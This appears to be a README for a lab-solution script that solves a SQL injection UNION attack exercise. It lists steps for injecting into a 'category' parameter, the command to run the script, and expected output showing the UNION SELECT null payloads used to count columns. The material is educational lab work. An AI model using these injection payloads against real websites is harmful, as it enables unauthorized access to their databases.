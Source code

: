 # Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python sql_injection_union_attack_determining_the_number_of_columns_returned_by_the_query.py
```

# Expected Output

```
[#] Injection parameter: category
[*] Trying payload: ' UNION SELECT null-- -
[*] Trying payload: ' UNION SELECT null, null-- -
[*] Trying payload: ' UNION SELECT null, null, null-- -
[#] Number of columns: 3
[#] Check your browser, it should be marked now as solved
```
